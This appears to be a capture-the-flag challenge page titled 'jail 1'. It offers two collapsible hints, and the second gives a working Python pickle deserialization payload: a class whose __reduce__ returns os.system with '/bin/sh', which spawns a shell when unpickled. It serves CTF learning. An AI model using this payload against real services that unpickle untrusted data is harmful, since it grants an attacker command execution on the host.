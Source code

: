 # jail 1

<details>
    <summary>Hint 1</summary>

Try searching "python pickle exploit" on google.

</details>

<details>
    <summary>Hint 2</summary>

    ```py
    import os
    
    class RCE:
        def __reduce__(self):
            return os.system, ('/bin/sh',)
    ```

</details>
